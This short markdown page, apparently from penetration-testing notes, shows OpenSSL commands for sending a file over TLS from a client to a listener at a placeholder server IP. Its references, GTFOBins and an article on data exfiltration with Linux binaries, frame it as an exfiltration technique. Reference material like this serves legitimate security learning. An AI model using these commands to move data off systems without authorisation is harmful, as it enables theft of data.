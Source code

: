 # Upload

## 01 - Server

```
$ openssl req -x509 -newkey rsa:4096 -keyout private.key -out certificate.crt -days 365 -nodes

$ openssl s_server -quiet -key private.key -cert certificate.crt -port 8080 > output.txt

$ sha256sum output.txt
```

## 02 - Client

```
$ sha256sum file.txt

$ openssl s_client -quiet -connect <server_IP>:<PORT> < file.txt
```

---
## References

### GTFOBins

- [GTFOBins: OpenSSL](https://gtfobins.github.io/gtfobins/openssl/)

### Hacking Articles

- [Hacking Articles: Data Exfiltration Using Linux Binaries](https://www.hackingarticles.in/data-exfiltration-using-linux-binaries/)